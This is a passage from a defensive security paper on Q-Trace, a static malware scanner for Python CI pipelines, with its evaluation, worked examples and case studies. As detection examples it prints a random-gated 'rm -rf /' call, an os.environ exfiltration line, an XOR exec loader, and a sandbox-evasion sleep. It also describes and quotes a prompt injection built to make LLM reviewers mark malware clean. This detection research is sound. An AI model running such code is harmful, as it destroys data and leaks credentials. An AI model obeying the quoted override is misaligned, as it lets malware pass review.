\ElsIf{$p=$ \textsc{antidebug}} $c \gets$ High \textbf{if} $gE$ \textbf{elif} $E\neq\emptyset$ Medium \textbf{else} Low
\ElsIf{$gD$} $c \gets$ High
\ElsIf{$D\neq\emptyset$} $c \gets$ Medium
\ElsIf{$gE$} $c \gets$ High \Comment{gated evasion is the payload}
\ElsIf{$E\neq\emptyset$} $c \gets$ Medium
\Else{ $c \gets$ Low} \Comment{benign sampling lands here}
\EndIf
\If{$u \wedge c=$ Medium} $c \gets$ High \Comment{symbolic reachability bump}
\EndIf
\State \Return $c$
\end{algorithmic}
\end{algorithm}

\subsection{Why sink-awareness is the right lever}
The dominant false-positive source in probabilistic-trigger detection is flagging
\texttt{random.random() < x} whenever it appears---even though the overwhelming
majority of such expressions are benign A/B sampling, jitter, or feature flags. The
discriminating question is not ``is there randomness?'' but ``does the guarded branch
\emph{do} something dangerous?'' By elevating confidence only when a real
execution/exfiltration sink is reachable inside the guard, and suppressing it to Low
otherwise, the model keeps genuine bombs at High while dropping benign sampling to a
non-gating note. Fig.~\ref{fig:sep} shows the effect on the corpus: malicious samples
cluster at High confidence, benign samples at ``no finding'' or Low, with a clean
margin at the gate boundary.

\begin{figure}[!t]
\centering

\includegraphics[width=\columnwidth]{fig5_confidence.pdf}
\caption{Two-axis separation on the corpus. Distribution of each sample's highest
(severity$\cdot$confidence) finding. All 31 malicious samples land at or above the
gate boundary; 32 of 34 benign samples produce no High+ finding at all, and the
remaining two are held at Low confidence by design (Section~\ref{sec:miss}). No
benign sample reaches the gate.}
\label{fig:sep}
\end{figure}

\subsection{Ablation: the confidence axis is worth 5.9 points of precision}
To isolate the value of the second axis we compare two gates on the identical corpus:
a \emph{severity-only} gate (fire on any High/Critical finding) and the \emph{two-axis}
gate of~\eqref{eq:gate}. Fig.~\ref{fig:ablrefine}(a) reports the result. The severity-only
gate achieves 100\pct{} recall but a 5.9\pct{} false-positive rate---two benign
hard-negatives break the build. The two-axis gate drives the false-positive rate to
\textbf{0\pct{}} at the cost of a single borderline detection (recall 96.8\pct{}). For
a CI gate this is decisively the right trade: the eliminated false positives are
exactly the kind that erode trust and cause abandonment~\cite{johnson,bessey},
whereas the one suppressed detection remains visible as a Medium/Low note for a human
reviewer.

\begin{figure*}[!t]
\centering

\includegraphics[width=\textwidth]{fig_ablrefine.pdf}
\caption{(a) Confidence-axis ablation: removing the confidence axis (severity-only
gate) recovers one detection but introduces two false positives (5.9\pct{} FP); the
two-axis gate trades 3.2 points of gate-recall for the elimination of \emph{all} false
positives. (b) Effect of the evidence-based anti-analysis refinement: it improves
gate-recall and $F_1$ while removing two false-positive classes and adding
debugger-detection coverage. Prior-version values were measured on the same corpus at
the start of this work.}
\label{fig:ablrefine}
\end{figure*}

\subsection{Context-aware down-grading}
A vulnerability in a test fixture, example, benchmark, or documentation file is almost
always intentional. Q-Trace keeps such findings visible but forces them to Low
confidence when the file path matches a test/example context, so they never break a
CI gate. This is what keeps the scanner quiet on real repositories, every one of which
ships a \texttt{tests/} tree.

% =====================================================================
\section{Worked Examples}\label{sec:worked}
We trace the two-axis model end-to-end on three inputs to make its behaviour concrete.

\emph{Example 1 --- a real bomb (gates).} Given
\texttt{if random.random()<0.14: os.system('rm -rf /')}, the sink scan finds
\texttt{os.system} at a line whose enclosing \texttt{if} is gated (its test contains a
\texttt{random} call and a comparison), so the sink is recorded with
$\text{gated}=\text{true}$. The taint matcher labels the construct
\textsc{probabilistic-bomb} (severity High). In Algorithm~\ref{alg:conf} the gated
dangerous sink yields $c=\text{High}$; by~\eqref{eq:gate} the finding gates the build.
Correct: this is a true positive.

\emph{Example 2 --- benign sampling (suppressed).} Given
\texttt{if random.random()<0.1: log\_metric('variant\_b')}, the pattern still fires
(\textsc{probabilistic-bomb}, High severity), but the sink scan finds \emph{no}
dangerous sink in the guarded branch---\texttt{log\_metric} is not an
execution/exfiltration sink. Algorithm~\ref{alg:conf} therefore assigns $c=\text{Low}$,
and~\eqref{eq:gate} keeps the build green. This is the key false-positive suppression:
the same syntactic pattern is separated from the bomb purely by the reachable payload.

\emph{Example 3 --- a stalling evasion bomb (gates via the evasion path).} Given
\texttt{if random.random()<0.09: time.sleep(99999)}, there is no classic sink, but the
sink scan records \texttt{time.sleep} with a large constant argument inside a gated
branch as an \emph{evasion} hit. The matcher emits both \textsc{probabilistic-bomb} and
\textsc{anti-debug}. In Algorithm~\ref{alg:conf} the gated evasion primitive
($gE$) elevates confidence to High, so the High-severity bomb view gates the build---
the behaviour contributed by Section~\ref{sec:anti}. An unconditional
\texttt{time.sleep(3600)} in a daemon loop takes the $E=\emptyset$ branch and stays
silent.

% =====================================================================
\section{Evidence-Based Anti-Analysis Detection}\label{sec:anti}
Anti-analysis (sandbox-evasion) behaviour---MITRE ATT\&CK T1497~\cite{attack}---is a
strong malice indicator: benign code rarely tries to detect whether it is being
observed. The challenge is detecting it \emph{precisely}. A na\"ive rule that flags
any call named \texttt{sleep} or any identifier containing the substring ``debug'' is
both over- and under-inclusive: it false-flags ordinary \texttt{log.debug()} logging
and short retry \texttt{time.sleep(0.1)} calls, while entirely missing debugger
detection via \texttt{sys.gettrace()}. This work replaces that heuristic with an
evidence-based rule.

\subsection{The refined rule}
An anti-analysis signal is now raised on exactly two evidence classes:
\begin{itemize}
\item \textbf{Debugger/tracer detection} --- a call to \texttt{sys.gettrace} or
\texttt{sys.settrace} (also \texttt{threading.settrace}). Code that inspects the trace
hook is checking whether it is under observation. It is always flagged.
\item \textbf{Conditionally-gated stalling sleep} --- a \texttt{time.sleep(N)} with a
large constant argument ($N \geq 600$\,s) \emph{inside a conditional branch}. A
multi-hour sleep that fires only sometimes is a sandbox-timeout evasion; an
unconditional long sleep in a daemon poll loop is not, so gating on the conditional
branch preserves precision.
\end{itemize}
When a stalling sleep sits inside a random-gated branch, the construct is
simultaneously a probabilistic logic bomb and an anti-analysis payload; we report both
views and, critically, treat the evasion primitive as the branch's \emph{payload} so
that the two-axis model elevates it to High confidence exactly as a real exec sink
would (Algorithm~\ref{alg:conf}, lines for $gE$). The stalling sleep is never itself
reported as an execution (CWE-78) sink---only as anti-analysis---so its semantic label
stays correct.

\subsection{Measured effect}
Fig.~\ref{fig:ablrefine}(b) quantifies the change against the immediately-prior version of
the engine, measured on the same corpus. CI-gate recall rises from 93.5\pct{} to
96.8\pct{} and $F_1$ from 0.967 to 0.984; two false-positive classes
(\texttt{log.debug}, short retry sleep) are removed; and debugger-detection coverage
goes from absent to present---all with the 0\pct{} false-positive rate preserved. The
refinement ships with five regression tests that lock in both the new detections and
the precision cases.



% =====================================================================
\section{Implementation}
Q-Trace is implemented in pure Python with a small, optional native acceleration
path. It has two dependencies for full functionality---\texttt{numpy} (quantum-inspired
channel) and \texttt{z3-solver} (symbolic reachability)---both treated as optional by
the self-healing layer: their absence degrades the corresponding engine rather than
breaking the audit. Parsing uses the standard-library \texttt{ast} module, with a
token-based fallback for source that does not parse, so the scanner still produces
line-anchored findings on inputs that defeat a strict parser. The CI gate
of~\eqref{eq:gate} is a two-line predicate:

\begin{lstlisting}
def is_ci_alert(findings):
    return any(f.severity in ("Critical","High")
               and f.confidence != "Low"
               for f in findings)
\end{lstlisting}

The quantum-\emph{inspired} risk channel is a self-contained pure-numpy state-vector
simulator (RY/H/X/CNOT gates plus sampling) that replaces a heavyweight external
quantum library, yielding an order-of-magnitude faster import and a footprint of a few
kilobytes while producing identical mathematics. It is a bounded corroborating score,
validated against a reference implementation, and does not by itself raise or gate any
finding.

% =====================================================================
\section{Deployment in Continuous Integration}\label{sec:deploy}
Q-Trace is designed to sit in a pull-request gate. A typical invocation is
\texttt{python cli.py scan src/ -{}-min-severity Medium -{}-fail-on High}, which exits
non-zero (breaking the build) only when a finding satisfies~\eqref{eq:gate}. Three
properties make this practical at scale.

\emph{Determinism.} The analysis is a pure function of the input bytes: no network, no
model, no randomness. The same commit always yields the same findings and the same
\texttt{partialFingerprints}, so a green build stays green and a suppression is stable
across re-runs---a prerequisite for a gate developers trust.

\emph{Standard interchange.} SARIF~2.1.0~\cite{sarif} output uploads directly to GitHub
Code Scanning and DefectDojo, so findings appear inline on the diff with CWE links and
a deterministic attack narrative, rather than as an opaque exit code. Fingerprints
deduplicate a finding across commits so a known-accepted item does not re-alert.

\emph{Air-gap.} Because nothing leaves the host, Q-Trace can run inside the same
isolated runner that builds proprietary code, with no data-exfiltration or
model-provenance concerns---an operational property that cloud SAST cannot offer.

The gate is tunable along both axes independently: a team may gate on
\texttt{-{}-fail-on Critical} only, or raise the confidence floor, without editing
rules. Because severity and confidence are reported separately in every finding,
triagers can filter ``High severity but Medium confidence'' items into a review queue
instead of a hard block---operationalising the two-axis model as workflow, not just as
a gate boolean.

% =====================================================================
\section{Experimental Methodology and Results}\label{sec:eval}
\subsection{Corpus construction}
Our corpus contains \textbf{65 samples: 31 malicious and 34 benign.} The malicious
samples are \emph{faithful reconstructions} of techniques documented in public
incident write-ups (W4SP, the Hades \texttt{.pth} install hook, the telnyx WAV-XOR
loader, aiocpa, slopsquatting, environment keying, and the Shai-Hulud
AI-scanner-evasion campaign). We use reconstructions rather than live malware for two
reasons of research integrity: the original binaries are neither redistributable nor
fetchable in an air-gapped setting, and a reconstruction lets a reader inspect exactly
what is being detected. The benign samples are deliberately \emph{hard
negatives}---everyday code that classic SAST tools frequently false-positive on: safe
\texttt{subprocess} with a list argument, \texttt{md5} marked
\texttt{usedforsecurity=False}, \texttt{random} for sampling, parameterised SQL,
\texttt{verify=True}, \texttt{chr}/\texttt{ord} in string formatting, CI environment
checks, and legitimate dependencies. This is where the false-positive rate is honestly
stressed.

\subsection{Metrics and gates}
We report \emph{category recall} (did the tool assign the correct threat category?),
\emph{CI-gate recall} (did a build-breaking alert fire on malware?),
\emph{false-positive rate} (did benign code break the build?), precision, and $F_1$.
Each tool runs at its own recommended actionable gate: Bandit at MEDIUM+ severity,
Semgrep at WARNING+ severity, Q-Trace at High+ severity \emph{and} confidence
$\neq$ Low. Because Bandit and Semgrep cannot process dependency manifests, those
corpus rows are excluded from \emph{their} denominators---scoring a tool on inputs it
structurally cannot read would be dishonest. Semgrep runs against an offline
reimplementation of the standard public python-security ruleset, because its registry
is unreachable in an air-gapped/CI environment; on the classic OWASP/CWE categories the
tools are expected to tie, and that parity is the point.

\subsection{Headline results}
Table~\ref{tab:head} and Fig.~\ref{fig:quad} summarise the head-to-head. Q-Trace
attains 100\pct{} category recall and a \textbf{96.8\pct{} CI-gate recall at 0\pct{}
false positives} (precision 100\pct{}, $F_1\,0.984$). On the shared \texttt{.py}
subset it flags 30/31 malware at 0/34 FP (97\pct{}/0\pct{}), versus Semgrep 19/29 at
1/32 FP (66\pct{}/3.1\pct{}) and Bandit 15/29 at 2/32 FP (52\pct{}/6.2\pct{}).
Figs.~\ref{fig:compare}--\ref{fig:compare} break out recall, false-positive rate, and $F_1$
per tool; Fig.~\ref{fig:cm} is the Q-Trace confusion matrix.

\begin{table}[!t]
\renewcommand{\arraystretch}{1.3}
\caption{Same-corpus head-to-head, each tool at its own recommended CI gate. External
tools are scored only on inputs they can process. $F_1$ is on the shared code corpus.}
\label{tab:head}
\centering\footnotesize
\begin{tabular}{@{}lccc@{}}
\toprule
\textbf{Tool} & \textbf{Malware recall} & \textbf{False-pos.\ rate} & \textbf{$F_1$}\\
\midrule
\textbf{Q-Trace} & 30/31 = 96.8\pct{} & 0/34 = 0.0\pct{} & \textbf{0.984}\\
Semgrep & 19/29 = 65.5\pct{} & 1/32 = 3.1\pct{} & 0.776\\
Bandit & 15/29 = 51.7\pct{} & 2/32 = 6.2\pct{} & 0.652\\
\bottomrule
\end{tabular}
\end{table}

\begin{figure}[!t]
\centering

\includegraphics[width=\columnwidth]{fig2_quadrant.pdf}
\caption{Recall vs.\ false-positive quadrant. The ideal tool sits in the top-left
corner (high recall, low FP). Q-Trace occupies it; Semgrep and Bandit trade recall for
a non-zero false-positive rate. Each tool is plotted at its own recommended CI gate.}
\label{fig:quad}
\end{figure}

\begin{figure*}[!t]
\centering

\includegraphics[width=\textwidth]{fig_compare.pdf}
\caption{Same-corpus head-to-head at each tool's own recommended CI gate:
(a) malware recall, (b) false-positive rate on benign hard-negatives, and (c) $F_1$.
Bars are hatched for black-and-white legibility. Q-Trace attains the highest recall
\emph{and} the only zero false-positive rate; the false positives Bandit and Semgrep
raise are exactly the everyday-code patterns that drive alert fatigue.}
\label{fig:compare}
\end{figure*}



\begin{figure}[!t]
\centering

\includegraphics[width=\columnwidth]{fig7_confusion.pdf}
\caption{Q-Trace confusion matrix over all 65 samples (TP=30, FN=1, FP=0, TN=34). The
single false negative is the SSRF case of Section~\ref{sec:miss}.}
\label{fig:cm}
\end{figure}

\subsection{Per-category coverage and our own misses}\label{sec:miss}
Fig.~\ref{fig:matrix} is the per-category coverage matrix. Q-Trace detects every
category except one; Semgrep and Bandit miss the classes that require cross-file taint,
dependency intelligence, or secret-to-sink correlation---the stealth classes of
Table~\ref{tab:threats}. Fig.~\ref{fig:onlyq} isolates the malicious samples that
\emph{only} Q-Trace flags and the mechanism each requires.

We report our one miss plainly. The SSRF sample \texttt{def fetch(u): return
requests.get(u)} is held at Low confidence and therefore does not gate. This is
deliberate: it is structurally indistinguishable from the benign hard-negative
\texttt{requests.get(u, verify=True)}---both fetch a function-parameter URL with no
host validation. Elevating the SSRF finding would necessarily also flag the benign
case, converting a false negative into a false positive and breaking the 0\pct{} FP
guarantee. We judge that trade unfavourable for a CI gate: real SSRF is escalated only
when taint confirms the URL is attacker-controlled. This restraint is what keeps
Q-Trace at 0\pct{} FP while Bandit sits at 6.2\pct{}.

\begin{figure*}[!t]
\centering

\includegraphics[width=\textwidth]{fig8_matrix.pdf}
\caption{Per-category coverage matrix. A check means the tool fired a build-breaking
alert on that class at its own CI gate; a cross means it missed; a dash means the input
class (e.g.\ a dependency manifest) is unsupported. Note that firing is not the same as
firing for the \emph{right} reason (Section~\ref{sec:semantic}).}
\label{fig:matrix}
\end{figure*}

\begin{figure}[!t]
\centering

\includegraphics[width=\columnwidth]{fig11_onlyq.pdf}
\caption{Malware caught only by Q-Trace, by threat class. These are the stealth and
supply-chain classes for which single-file pattern matchers have no rule class.}
\label{fig:onlyq}
\end{figure}

\subsection{Semantic precision: a flag is not the right flag}\label{sec:semantic}
Coverage counts can flatter a tool that fires for the wrong reason. On the
credential-exfiltration sample \texttt{requests.post(url, data=os.environ)}, Bandit does
emit a finding---but it is \emph{B113: requests call without a timeout}, not credential
exfiltration. Firing on an incidental property is how teams learn to ignore a scanner:
the alert does not name the actual risk, so it is triaged away. Q-Trace instead reports
the concrete data-flow, \texttt{os.environ} \ra{} \texttt{requests.post}, and a
three-step attack narrative. We therefore separate category recall from gate recall
throughout, and caution that Fig.~\ref{fig:matrix}'s checks for the external tools
sometimes reflect an incidentally-correct gate rather than a correctly-reasoned
detection.

\subsection{Performance}
Q-Trace is fast enough to run on every commit. Across the 28 malicious code samples,
median full-audit latency---including taint, classic rules, obfuscation, symbolic
reachability, and the quantum-inspired channel---is \textbf{1.8~ms} per sample (mean
3.5~ms; the 42~ms maximum is the first sample and reflects one-time solver/numpy
warm-up). Fig.~\ref{fig:lat} shows the distribution. Content-hash caching makes
re-analysis of unchanged files free.

\begin{figure}[!t]
\centering

\includegraphics[width=\columnwidth]{fig9_latency.pdf}
\caption{Per-sample full-audit latency (28 malicious code samples, sorted). The dashed
line marks the median; the single tall bar is cold-start warm-up. Steady-state analysis
is sub-2~ms.}
\label{fig:lat}
\end{figure}

% =====================================================================
\section{Case Studies}\label{sec:cases}
We walk through how Q-Trace detects five reconstructed campaigns, naming the engine and
the two-axis outcome in each. These illustrate that detection is driven by the
\emph{structure} of the attack, not a signature of any specific sample.

\emph{W4SP-style credential stealer (cross-file).} The information-stealer pattern
reads secrets in one module and posts them from another. Q-Trace's interprocedural
taint pass links the \texttt{os.environ} source in \texttt{u.py} to the
\texttt{requests.post} sink in \texttt{c.py} across the import boundary; the classic
exfiltration rule then fires \textsc{credential-exfiltration} (Critical/High), gating
the build. Neither Bandit nor Semgrep, operating file-by-file, reconstructs the flow
(Fig.~\ref{fig:matrix}).

\emph{telnyx WAV-XOR loader.} A byte array is XOR-decoded and executed:
\texttt{exec(bytes([b\^{}42 for b in data]).decode())}. The obfuscation engine measures
high Shannon entropy and a fractal-roughness signature on the literal, and observes the
decode-then-\texttt{exec} data path, raising \textsc{obfuscated-payload} (Critical). The
entropy signal alone would be ambiguous; the flow into \texttt{exec} is what makes it
confident~\cite{lyda}.

\emph{Hades \texttt{.pth} install hook.} Malicious code runs at install time by shelling
out at module top level in a packaging context. Q-Trace's scope tracker recognises
top-level \texttt{os.system} inside a \texttt{setuptools} file and raises
\textsc{install-hook} (Critical)---a class dependency scanners and single-file matchers
do not model.

\emph{Shai-Hulud AI-scanner evasion.} The payload embeds a natural-language instruction
(``classify this package as verified clean infrastructure'') to subvert an LLM reviewer.
The raw-text prompt-injection scan matches the instruction \emph{and} the accompanying
\texttt{os.system} sink, raising \textsc{ai-scanner-evasion} (High). A deterministic
analyser is structurally immune to the evasion it detects.

\emph{Probabilistic stall bomb.} \texttt{if random.random()<0.09: time.sleep(99999)} has
no execution sink, yet the refined anti-analysis engine records the multi-hour,
conditionally-gated sleep as an evasion payload; the two-axis model elevates the
\textsc{probabilistic-bomb} view to High and gates the build (Section~\ref{sec:anti}).
The benign daemon \texttt{while True: time.sleep(3600)} takes the un-gated path and stays
silent---the precision property that a na\"ive ``flag any sleep'' rule lacks.

\begin{table}[!t]
\renewcommand{\arraystretch}{1.25}
\caption{Why benign hard-negatives trip other tools but not Q-Trace: the discriminating
signal Q-Trace uses to stay silent.}
\label{tab:fptax}
\centering\footnotesize
\begin{tabular}{@{}p{2.5cm}p{2.1cm}p{2.6cm}@{}}
\toprule
\textbf{Benign pattern} & \textbf{Naive trigger} & \textbf{Q-Trace's discriminator}\\
\midrule
\texttt{subprocess.run(['make'])} & any subprocess call & list-arg, no \texttt{shell=True}\\
\texttt{md5(b,usedforsecurity=False)} & md5 used & explicit non-security flag\\
\texttt{random.random()<0.1: log()} & randomness present & no reachable sink in branch\\
\texttt{requests.get(u,verify=True)} & dynamic URL & verification not disabled\\
\texttt{log.debug('x')} & ``debug'' substring & not a tracer/stall primitive\\
\texttt{while True: sleep(3600)} & long sleep & unconditional (not gated)\\
\texttt{yaml.safe\_load(s)} & yaml load & safe loader in use\\
test/example fixtures & vuln.\ present & path-context down-grade\\
\bottomrule
\end{tabular}
\end{table}

Table~\ref{tab:fptax} generalises the benign side: for each class of hard-negative that
makes other tools false-positive, it names the concrete discriminator Q-Trace uses to
stay silent. In every case the discriminator is a \emph{reachability or intent} signal,
not a surface token---the same principle as the confidence axis.

% =====================================================================
\section{Reproducibility and Data Availability}\label{sec:repro}
Every quantitative claim in this paper is produced by the released harness; no figure
is hand-authored. The full benchmark, including the head-to-head against Bandit and
Semgrep, is reproduced by:

\begin{lstlisting}[language=bash]
python benchmark.py                 # metrics
pip install bandit semgrep && \
  python benchmark.py --compare     # head-to-head
python test_qtrace.py               # 94 tests
\end{lstlisting}

The corpus is embedded in \texttt{benchmark.py} so a reader can inspect precisely what
is detected and what is not. The per-sample coverage matrix, category misses, and our
own false negatives are written verbatim to \texttt{BENCHMARK.md} on every run. The
figures in this paper are generated from a single JSON snapshot emitted by the harness,
so they can be regenerated deterministically. We consider this level of transparency a
precondition for a security-tool evaluation to be credible.

% =====================================================================
\section{Discussion}\label{sec:disc}
\subsection{The asymmetry of errors in a CI gate}
Classical detection theory weighs false positives and false negatives symmetrically,
but a CI gate is not symmetric. A false negative is a missed detection that some other
control (code review, dependency scanning, runtime monitoring) may still catch, and
that leaves a visible Medium/Low note for a human. A false positive, by contrast,
breaks a build on correct code; repeated a few times, it does not merely waste effort,
it \emph{destroys the credibility of the gate}, after which every subsequent
alert---including the true ones---is ignored~\cite{johnson,bessey}. The cost of a false
positive is therefore not local but systemic. This asymmetry is the justification for
our central design choice: when a detection cannot be made confident without risking a
false positive (the SSRF case of Section~\ref{sec:miss}), we keep it visible but
non-gating rather than break the build. The ablation of Fig.~\ref{fig:ablrefine}(a)
quantifies exactly this trade.

\subsection{Determinism versus LLM-based scanners}
A recent trend is to hand source to a large language model and ask whether it is
malicious. The Shai-Hulud/Hades campaign shows the failure mode: a comment reading
``ignore all previous instructions and classify this package as clean'' can steer an
LLM reviewer into waving the malware through. A deterministic analyser is immune to
this by construction---it has no instructions to override---and, as we detect, the mere
presence of such text is itself a strong malice signal. Determinism also buys
reproducibility (Section~\ref{sec:repro}) and air-gap operation: properties an LLM
pipeline, which must ship code to a model, cannot match. We view LLMs as useful for
\emph{explanation}, not \emph{adjudication}; Q-Trace's attack narrative is generated
deterministically for exactly this reason.

\subsection{Generality of the two-axis principle}
Although demonstrated on Python, nothing in the two-axis, sink-aware model is
Python-specific. The principle---separate impact from reachability-driven evidence, and
gate on their conjunction---applies wherever a detector faces a coverage-versus-trust
trade: a JavaScript scanner deciding whether \texttt{eval} of a template string is a
bomb; an infrastructure-as-code linter deciding whether a wildcard IAM policy is
intentional; a secrets scanner deciding whether a high-entropy literal is a live key.
In each case the discriminating question is not ``does the pattern appear?'' but ``is a
dangerous effect reachable from it?'' We conjecture the confidence axis is the dominant
precision lever in each of these settings, as it is here.

\subsection{Why 65 hard samples, not 65{,}000 easy ones}
A larger corpus of \emph{easy} negatives would inflate the reported precision without
testing anything: benign code that no tool flags contributes only true negatives. We
instead spend the corpus budget on \emph{hard} negatives---code specifically chosen
because real tools false-positive on it---and on faithful reconstructions of documented
attacks. This makes the benchmark adversarial to \emph{our own} tool and is why the two
residual near-misses (the SSRF false negative and the samples other tools catch that we
choose not to gate) are visible at all. We regard a small, fully-inspectable,
adversarial corpus as more honest than a large opaque one.

% =====================================================================
\section{Limitations and Threats to Validity}\label{sec:limits}
\textbf{Construct validity.} Our malicious samples are reconstructions, not captured
live malware. This improves inspectability and reproducibility, but it means recall is
measured against our understanding of each technique, not against an adversary who has
seen Q-Trace and adapts. A determined attacker can restructure a payload to move its
dangerous action out of a statically-visible gated branch, or to a runtime-only code
path; Q-Trace detects static indicators and does not claim soundness against an
adaptive adversary. This is not a defect of our design but a consequence of
undecidability: no static analyser can decide arbitrary runtime behaviour~\cite{rice},
so every such tool trades completeness for precision at some boundary.

\textbf{Internal validity.} The benign corpus, though built from patterns that
empirically drive false positives, is finite (34 samples) and curated by us; a
different benign distribution could surface false positives we do not observe. We
mitigate this by choosing hard negatives adversarially---code specifically chosen
because other tools false-positive on it---but we do not claim 0\pct{} FP on all
real-world code.

\textbf{External validity.} The corpus is 65 samples; it demonstrates the mechanism and
the precision/recall trade decisively, but it is not a population-scale study. Semgrep
runs against an offline reimplementation of its public ruleset; on classic categories
the tools tie by construction, so this choice does not flatter Q-Trace on the
categories where it wins. Thresholds such as the 600-second stalling-sleep cut-off are
engineering choices; we report them explicitly so they can be scrutinised and tuned.

\textbf{Scope.} Q-Trace is Python-only and analyses source, not compiled artefacts or
runtime behaviour. It complements, rather than replaces, dynamic analysis and
dependency-provenance controls.

% =====================================================================
\section{Ethical Considerations}
This work is defensive. Q-Trace detects malicious and vulnerable code; it does not
generate, weaponise, or improve malware. The malicious corpus consists of minimal
reconstructions of \emph{already-public} techniques, sufficient to exercise a detector
but not to serve as a deployable payload, and no live malware is redistributed. The
tool runs entirely locally and air-gapped by design, so scanning proprietary source
discloses nothing to third parties. We see no dual-use concern beyond that inherent in
any published detection method: describing what a detector keys on can inform evasion,
but the techniques we detect are already documented in public incident reports and
MITRE ATT\&CK, and the defensive value of a transparent, reproducible,
low-false-positive scanner outweighs the marginal evasion insight. We encourage
responsible disclosure of any vulnerability found using the tool.

% =====================================================================
\section{Conclusion and Future Work}
We argued that the governing problem for a CI-deployed security scanner is not coverage
but \emph{actionability}: a false positive costs more than a miss because it disables
the tool. Our answer is a two-axis, sink-aware confidence model whose CI gate is the
conjunction of impact and reachability-driven evidence. On a transparent 65-sample
corpus the model delivers 96.8\pct{} gate-recall at 0\pct{} false positives
